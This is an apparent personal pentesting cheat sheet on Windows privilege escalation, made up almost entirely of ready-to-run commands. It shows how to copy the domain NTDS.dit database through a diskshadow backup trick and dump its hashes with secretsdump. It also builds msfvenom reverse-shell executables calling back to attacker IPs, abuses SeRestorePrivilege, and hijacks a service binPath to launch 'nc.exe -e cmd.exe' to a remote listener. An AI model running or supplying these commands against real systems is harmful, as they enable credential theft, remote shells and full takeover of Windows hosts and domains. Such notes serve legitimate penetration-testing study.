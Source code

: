 If that isn't good enough..

```bash
mkdir c:\temp
cd c:\temp

### back_script.txt
set verbose on 
set metadata C:\Windows\Temp\meta.cab 
set context clientaccessible 
set context persistent 
begin backup 
add volume C: alias cdrive 
create 
expose %cdrive% E: 
end backup 
###

diskshadow /s back_script.txt
robocopy /b E:\Windows\ntds . ntds.dit

secretsdump.py -ntds ntds.dit -system system local 
```

#### SeRestorePrivilege

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.178 LPORT=443 EXITFUNC=thread -f exe > binary.exe
upload binary.exe
sudo nc -lvnp 80
.\SeRestoreAbuse.exe "cmd /c C:\windows\tasks\binary.exe"

.\EnableSeRestorePrivilege.ps1
if access to RDP and C:\Windows\System32 then you an do the utilman exploit.
```

#### Exploiting Service (think I meant..) Server Operators Group Membership

```bash
services # look for True
upload nc.exe
sc.exe config VMTools binPath="C:\Users\aarti\Documents\nc.exe -e cmd.exe 192.168.1.205 1234"
nc -lvnp 1234
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$myip LPORT=$port EXITFUNC=thread -f exe > shell.exe

sc.exe config VMTools binPath="C:\Users\aarti\Documents\shell.exe"
sc.exe stop VMTools
sc.exe start VMTools
```
